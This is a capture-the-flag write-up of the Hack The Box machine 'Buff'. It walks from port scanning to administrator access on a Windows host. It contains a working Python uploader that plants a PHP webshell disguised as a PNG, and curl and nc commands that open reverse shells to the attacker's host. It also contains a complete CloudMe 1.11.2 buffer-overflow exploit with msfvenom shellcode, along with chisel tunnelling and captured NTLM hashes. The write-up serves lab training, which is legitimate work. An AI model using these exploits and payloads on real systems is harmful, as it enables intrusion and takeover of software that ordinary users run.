

# Buff by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| Buff  | 10.10.10.198  | Windows            | 20       | 3.6      | 17774       | 8121        | Yes       | 2020-07-18     | 2020-11-21     | No         | 263         |

## Summary
1. Scan ports -> 7680, 8080
2. Enumerate port 8080 -> LFI through `/upload.php?id=`
3. Upload `webshell.php` -> `RCE`on `http://10.10.10.198:8080/upload/webshell.php?cmd=` as `shaun`
4. Obtain `reverse shell` with `nc.exe` -> User shell as `shaun` (User flag)
5. Exploit `buffer overflow` on `CloudMe 1.11.2` -> `RCE` as `administrator`
6. Obtain `reverse shell` with `nc.exe` -> User shell as `administrator` (System flag)

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Windows.
```bash
❯ ping -c 1 10.10.10.198
PING 10.10.10.198 (10.10.10.198) 56(84) bytes of data.
64 bytes from 10.10.10.198: icmp_seq=1 ttl=127 time=37.0 ms
```

### Nmap port scan
First, we will scan the host for open ports.
```bash
❯ sudo nmap -p- -sS --min-rate 5000 10.10.10.198 -v -Pn -n -oG Enum/allPorts
```
With the utility `extractPorts` we list and copy the open ports:
```bash
❯ extractPorts Enum/allPorts

[*] Extracting information...

	[*] IP Address:  10.10.10.198 

	[*] Open ports:  7680,8080 


[*] Ports have been copied to clipboard...
```
Run a detailed scan on the open ports:
```bash
❯ nmap -p7680,8080 -sVC 10.10.10.198 -oN Enum/targeted -n -Pn
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
```

#### Final nmap report
| Port  |  Service  |  Version  | Extra |
| :-: | :-: | :-: | :-: |
| 7680 | pando-pub? | - | - |
| 8080 | http       | Apache httpd 2.4.43  | PHP 7.4.6 |

### Port 8080 enumeration
#### Technology scan
```shell
❯ whatweb http://10.10.10.198:8080
http://10.10.10.198:8080 [200 OK] Apache[2.4.43], Bootstrap, Cookies[sec_session_id], Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6], HttpOnly[sec_session_id], IP[10.10.10.198], JQuery[1.11.0,1.9.1], OpenSSL[1.1.1g], PHP[7.4.6], PasswordField[password], Script[text/JavaScript,text/javascript], Shopify, Title[mrb3n\'s Bro Hut], Vimeo, X-Powered-By[PHP/7.4.6], X-UA-Compatible[IE=edge]
```
Toguether with `wappalyzer` extemsion:
| Technology | Version | Detail | 
| :-: | :-: | :-: |
| PHP | 7.4.6 | - |
| Apache | 2.4.43 | - |
| OpenSSL | 1.1.1g | - |

#### Web content fuzzing
```shell
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 --hh 118 "http://10.10.10.198:8080/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.198:8080/FUZZ
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000015:   200        2 L      11 W       66 Ch       ".gitattributes"  
000000025:   403        42 L     97 W       1044 Ch     ".htpasswd"       
000000023:   403        42 L     97 W       1044 Ch     ".hta"            
000000024:   403        42 L     97 W       1044 Ch     ".htaccess"       
000000193:   403        42 L     97 W       1044 Ch     "AT-admin.cgi"    
000000267:   200        338 L    2953 W     18025 Ch    "LICENSE"         
000000524:   403        42 L     97 W       1044 Ch     "admin.cgi"       
000000526:   403        42 L     97 W       1044 Ch     "admin.pl"        
000000761:   403        42 L     97 W       1044 Ch     "aux"             
000000905:   301        9 L      30 W       342 Ch      "boot"            
000000952:   403        42 L     97 W       1044 Ch     "cachemgr.cgi"    
000001037:   403        42 L     98 W       1058 Ch     "cgi-bin/"        
000001158:   403        42 L     97 W       1044 Ch     "com4"            
000001155:   403        42 L     97 W       1044 Ch     "com1"            
000001157:   403        42 L     97 W       1044 Ch     "com3"            
000001156:   403        42 L     97 W       1044 Ch     "com2"            
000001202:   403        42 L     97 W       1044 Ch     "con"             
000001703:   301        9 L      30 W       340 Ch      "ex"              
000001705:   503        39 L     98 W       1058 Ch     "examples"        
000002184:   301        9 L      30 W       345 Ch      "include"         
000002170:   301        9 L      30 W       341 Ch      "img"             
000002192:   200        133 L    308 W      4969 Ch     "index.php"       
000002451:   403        45 L     113 W      1203 Ch     "licenses"        
000002449:   200        338 L    2953 W     18025 Ch    "license"         
000002535:   403        42 L     97 W       1044 Ch     "lpt2"            
000002534:   403        42 L     97 W       1044 Ch     "lpt1"            
000002859:   403        42 L     97 W       1044 Ch     "nul"             
000003104:   403        45 L     113 W      1203 Ch     "phpmyadmin"      
000003268:   403        42 L     97 W       1044 Ch     "prn"             
000003303:   301        9 L      30 W       345 Ch      "profile"         
000003709:   403        45 L     113 W      1203 Ch     "server-status"   
000003708:   403        45 L     113 W      1203 Ch     "server-info"     
000003771:   403        42 L     97 W       1044 Ch     "showcode.asp"    
000004302:   301        9 L      30 W       344 Ch      "upload"          
000004465:   403        42 L     97 W       1044 Ch     "webalizer"  
```

As we can see, we need to log in to access to all the listed pages. Also, as we don't know the domain name, we cannot perform a subdomain fuzzing.

#### Manual enumeration
Now, we can perform a manual enumeration of the web server. While taking a look at the web page, we observe:

So we can enumerate a CMS called `Gym Management Software 1.0`. If we look for exploits we find:
```shell
❯ searchsploit Gym Management System 1.0
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                              |  Path
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                                                                              | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                                                                           | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                                                                                     | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                                                                           | php/webapps/48506.py
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
We are interested in the `Unauthenticated RCE`. 

## User shell
### RCE through port 8080's CMS
IF we take a look at the exploit [php/webapps/48506.py](https://www.exploit-db.com/exploits/48506), we can see that the CMS is vulnerable to LFI and we could upload a webshell like:
```php
echo "<pre>".system($_REQUEST["cmd"])."</pre>";
```
The page seems to be filtering for image uploads, so the name must be `webshell.php.png`. If we try to exploit this vulnerability with the next exploit:
```py
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Exploits/upload_webshell.py
       │ Size: 1.1 KB
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ import requests
   2   │ import argparse
   3   │ 
   4   │ args = argparse.ArgumentParser()
   5   │ args.add_argument("-u", "--url", help="Target's URL (base url)",dest="url",type=str, required=True)
   6   │ args.add_argument("-n", "--name", help="Name of the webshell", dest="name",type=str, required=True)
   7   │ args = args.parse_args()
   8   │ 
   9   │ upload_dir = '/upload.php?id={}'.format(args.name)
  10   │ upload_url = args.url + upload_dir 
  11   │ 
  12   │ png_magic = '\x89\x50\x4e\x47\x0d\x0a\x1a'
  13   │ 
  14   │ file_name = args.name + ".php.png"
  15   │ payload = png_magic + '\n' + '<?php echo "<pre>".system($_GET["cmd"])."</pre>"; ?>'
  16   │ file_type = "image/png"
  17   │ headers = {
  18   │         'Content-Disposition':'form-data'
  19   │         }
  20   │ 
  21   │ data = {
  22   │         'file':
  23   │             (
  24   │                 file_name,
  25   │                 payload,
  26   │                 file_type,
  27   │                 headers
  28   │             )
  29   │         }
  30   │ payload_data = {'pupload':'upload'}
  31   │ 
  32   │ response = requests.post(url=upload_url, files=data, data=payload_data, verify=False)
  33   │ 
  34   │ if "Warning" not in response.text:
  35   │     print("File successfully uploaded, go to:\n{}/upload/{}.php?cmd=whoami to test if it worked".format(args.url,args.name))
  36   │ else:
  37   │     print("Something went wrong!! :C")
  38   │ 
  39   │ 
───────┴───────────────────────────────────────────────────────────────────────────
```
Doing so, we can upload a `php webshell` and obtain RCE:
```shell
❯ python3 Exploits/upload_webshell.py -u http://10.10.10.198:8080 --name webshell
File successfully uploaded, go to:
http://10.10.10.198:8080/upload/webshell.php?cmd=whoami to test if it worked
❯ curl "http://10.10.10.198:8080/upload/webshell.php?cmd=whoami"
PNG

buff\shaun
```

### RCE to Reverse shell
Now, we can try to obtain a reverse shell using `nc.exe`. To do so, we will need to upload the binary:
```shell
❯ sudo smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.198,49705)
[*] AUTHENTICATE_MESSAGE (BUFF\shaun,BUFF)
[*] User BUFF\shaun authenticated successfully
[*] shaun::BUFF:aaaaaaaaaaaaaaaa:5f819dc41d6770610f307fa62f8c0745:010100000000000080cc5d7fe683d801b33020f358087cc6000000000100100068007500710048006700530068007000030010006800750071004800670053006800700002001000550075006c004e006b006f007000730004001000550075006c004e006b006f00700073000700080080cc5d7fe683d801060004000200000008003000300000000000000000000000002000003a087f26cfffb9410fedc4130c698f7913fe32dfb3e71db209a83440bc2642de0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0036000000000000000000
```
Now we can start a reverse shell as:
```shell
# Listening terminal
❯ nc -nlvp 3333
# Triggering terminal
❯ curl 'http://10.10.10.198:8080/upload/webshell.php?cmd=\\10.10.14.6\smbFolder\nc.exe+10.10.14.6+3333+-e+cmd'
# Listening terminal
C:\xampp\htdocs\gym\upload>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::24c
   IPv6 Address. . . . . . . . . . . : dead:beef::cce7:3d94:609d:5fc0
   Temporary IPv6 Address. . . . . . : dead:beef::f4de:d5a0:4fac:271e
   Link-local IPv6 Address . . . . . : fe80::cce7:3d94:609d:5fc0%10
   IPv4 Address. . . . . . . . . . . : 10.10.10.198
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:8918%10
                                       10.10.10.2
C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```
We obtained a reverse shell as `shaun` on `Buff`.

> Note: This windows shell uses `type` to read files, instead of `more`

## Privilege escalation
To escalate privileges we can try to execute `winpeas` and check the privesc vulnerabilities:
```shell
C:\Users\shaun\Desktop>copy \\10.10.14.6\smbFolder\winPEASx64_ofs.exe .\winpeas.exe
copy \\10.10.14.6\smbFolder\winPEASx64_ofs.exe .\winpeas.exe
        1 file(s) copied.
C:\Users\shaun\Desktop>.\winpeas.exe
͹ Enumerating Security Packages Credentials
  Version: NetNTLMv2
  Hash:    shaun::BUFF:1122334455667788:8b4531a493e7d27248ee48fd567ef133:0101000000000000f0e2ed99ea83d801b2d48db1dd1b7fe50000000008003000300000000000000000000000002000003a087f26cfffb9410fedc4130c698f7913fe32dfb3e71db209a83440bc2642de0a00100000000000000000000000000000000000090000000000000000000000
͹ Searching executable files in non-default folders with write (equivalent) permissions (can be slow)
  File Permissions "C:\Users\shaun\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\AC\#!001\MicrosoftEdge\Cache\WEIKCYS4\CloudMe_1112[1].exe": shaun [AllAccess]
```
We can try to bruteforce `shaun`'s password, but first, we will enumerate vulnerabilities for `CloudMe 1.11.2`:
```shell
❯ searchsploit CloudMe 1.11.2
------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                             |  Path
------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                                                                                     | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                                                                                            | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)                                                                                            | windows/local/48840.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt                                                                                            | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)                                                                                   | windows_x86-64/remote/46250.py
------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
We can see this version is vulnerable to Buffer Overflow:
```shell
import socket
import argparse

args = argparse.ArgumentParser()
args.add_argument(help="Host IP Address",dest="target",type=str)
args.add_argument(help="CloudMe 1.11.2 port (default 8888)", dest="port", type=int)
args = args.parse_args()

padding1 = b"\x90" * 1052
EIP = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS = b"\x83\xEC\x10" # sub esp, 0x10

# msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.9 4444 -e cmd' -b '\x00\x0A\x0D' -f python
buf =  b""
buf += b"\xd9\xc3\xd9\x74\x24\xf4\x58\xbb\x88\xaf\x7e\x3b\x2b"
buf += b"\xc9\xb1\x3d\x83\xe8\xfc\x31\x58\x14\x03\x58\x9c\x4d"
buf += b"\x8b\xc7\x74\x13\x74\x38\x84\x74\xfc\xdd\xb5\xb4\x9a"
buf += b"\x96\xe5\x04\xe8\xfb\x09\xee\xbc\xef\x9a\x82\x68\x1f"
buf += b"\x2b\x28\x4f\x2e\xac\x01\xb3\x31\x2e\x58\xe0\x91\x0f"
buf += b"\x93\xf5\xd0\x48\xce\xf4\x81\x01\x84\xab\x35\x26\xd0"
buf += b"\x77\xbd\x74\xf4\xff\x22\xcc\xf7\x2e\xf5\x47\xae\xf0"
buf += b"\xf7\x84\xda\xb8\xef\xc9\xe7\x73\x9b\x39\x93\x85\x4d"
buf += b"\x70\x5c\x29\xb0\xbd\xaf\x33\xf4\x79\x50\x46\x0c\x7a"
buf += b"\xed\x51\xcb\x01\x29\xd7\xc8\xa1\xba\x4f\x35\x50\x6e"
buf += b"\x09\xbe\x5e\xdb\x5d\x98\x42\xda\xb2\x92\x7e\x57\x35"
buf += b"\x75\xf7\x23\x12\x51\x5c\xf7\x3b\xc0\x38\x56\x43\x12"
buf += b"\xe3\x07\xe1\x58\x09\x53\x98\x02\x47\xa2\x2e\x39\x25"
buf += b"\xa4\x30\x42\x19\xcd\x01\xc9\xf6\x8a\x9d\x18\xb3\x65"
buf += b"\xd4\x01\x95\xed\xb1\xd3\xa4\x73\x42\x0e\xea\x8d\xc1"
buf += b"\xbb\x92\x69\xd9\xc9\x97\x36\x5d\x21\xe5\x27\x08\x45"
buf += b"\x5a\x47\x19\x06\x66\xeb\xda\xe8\xfb\x63\x6b\xb7\x6b"
buf += b"\xf0\xef\x28\x08\x8b\xb3\xd1\xb7\x06\x10\x6b\x37\xb5"
buf += b"\xc7\xf2\xd3\x19\x76\x96\x35\xc7\xfe\x3d\x69\x36\xcf"
buf += b"\x93\x58\x08\x01\xdd\xae\x46\x64\x3d\xfa\xa2\xa2\x09"
buf += b"\x22\xe6\xaf\x51\x41\x95\x4b\x92"

overrun = b"C" *(1500 - len(padding1 + NOPS + EIP + buf))

payload = padding1 + EIP + NOPS + buf + overrun

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((args.target,args.port))
    print("[+] Connected to the server")
    s.send(payload)
    print("[+] Payload was sent, check your listening shell :)")
except socket.error as e:
    print("Something went wrong...\nCause: {}".format(str(e)))
```

With this script we can try to trigger a reverse shell as root, exploiting the Buffer Overflow vulnerability on port 8888. But this port is local, so we will need to use `chisel` to forward it:
```powershell
# Uploading chisel to the victim
C:\xampp\htdocs\gym\upload>copy \\10.10.14.9\smbFolder\chisel.exe .\chisel.exe
copy \\10.10.14.9\smbFolder\chisel.exe .\chisel.exe
        1 file(s) copied.
# Executing reverse server
❯ chisel server --reverse -p 6666
2022/06/20 11:38:42 server: Reverse tunnelling enabled
2022/06/20 11:38:42 server: Fingerprint 3wcC9SZm9SOV+E3qxBu/4lxELF32m2QlbYfPOs2o0Mk=
2022/06/20 11:38:42 server: Listening on http://0.0.0.0:6666
# Executing port forwarding
C:\xampp\htdocs\gym\upload>.\chisel client 10.10.14.9:6666 R:8888:127.0.0.1:8888
.\chisel client 10.10.14.9:6666 R:8888:127.0.0.1:8888
2022/06/20 10:39:25 client: Connecting to ws://10.10.14.9:6666
2022/06/20 10:39:25 client: Connected (Latency 41.6874ms)
# Attacker side result
❯ chisel server --reverse -p 6666
2022/06/20 11:38:42 server: Reverse tunnelling enabled
2022/06/20 11:38:42 server: Fingerprint 3wcC9SZm9SOV+E3qxBu/4lxELF32m2QlbYfPOs2o0Mk=
2022/06/20 11:38:42 server: Listening on http://0.0.0.0:6666
2022/06/20 11:39:25 server: session#1: Client version (1.7.7) differs from server version (v1.7.7)
2022/06/20 11:39:25 server: session#1: tun: proxy#R:8888=>8888: Listening
```
Now, we can attack the machines local port 8888 as if it was our local port:
```shell
❯ nmap -p8888 --open 127.0.0.1 -n -Pn -oN Enum/chisel_8888
PORT     STATE SERVICE
8888/tcp open  sun-answerbook
```

Now, we can try to attack against it, using `nc.exe`:
``` shell
# Shaun terminal on victim
C:\xampp\htdocs\gym\upload>copy \\10.10.14.9\smbFolder\nc.exe .\nc.exe 
copy \\10.10.14.9\smbFolder\nc.exe .\nc.exe
        1 file(s) copied.
# Triggering terminal
❯ python3 Exploits/cloudme_buffoverflow.py 127.0.0.1 8888
[+] Connected to the server
[+] Payload was sent, check your listening shell :)
# Listening terminal
❯ nc -nlvp 4444
Connection from 10.10.10.198:49823
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```
We obtained a shell as `Buff/administrator` user.

## CVE
No CVEs were consulted for this machine.

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | e89175d4548daf72d1ededde4ade3a87 | No | 19-06-2022|
| Root | aab859e1b9ed3f79f4d025bf013cf3b7 | No | 20-06-2022|

## References
- https://www.exploit-db.com/exploits/48506
- https://www.cloudme.com/es
- https://www.exploit-db.com/exploits/48389
- https://bufferoverflows.net/practical-exploitation-part-1-cloudme-sync-1-11-2-bufferoverflow-seh/